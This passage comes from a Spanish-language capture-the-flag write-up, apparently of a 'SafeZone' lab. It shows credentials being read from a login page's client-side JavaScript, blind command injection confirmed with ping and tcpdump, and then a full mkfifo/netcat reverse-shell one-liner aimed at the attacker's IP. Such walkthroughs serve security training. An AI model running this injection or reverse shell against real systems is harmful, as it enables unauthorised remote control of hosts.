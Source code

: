Podemos observar que logramos obtener un recurso que viene a ser un login. Además, si observamos su código fuente, podemos observar un archivo JavaScript que contiene la función validate para configurar la autenticación del login. Además, en los comandos de la función validate, podemos observar las credenciales correctas en el condicional if para autenticarnos exitosamente. Luego, de autenticarnos, nos redirigía al recurso pentes.php que contiene un campo que será utilizado en una solicitud POST HTTP.

Ahora introduciré el comando ping -c 5 10.8.123.194 en el campo y habilitare el comando tcpdump para verificar si se está ejecutando el comando.

![](/assets/images/SafeZone/image043.png)

![](/assets/images/SafeZone/image044.png)

Podemos observar los mensajes ICMP eco Request y Reply. Por lo tanto, si se esta ejecutando el comando, aunque no podemos observar los resultados del comando en la respuesta HTML, es decir, en el navegador web. Por esta razón, viene a ser un Command Injection Blind.

Ahora intentaremos ejecutar el comando `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1800 >/tmp/f` con el fin de generar una reverse shell.

![](/assets/images/SafeZone/image045.png)
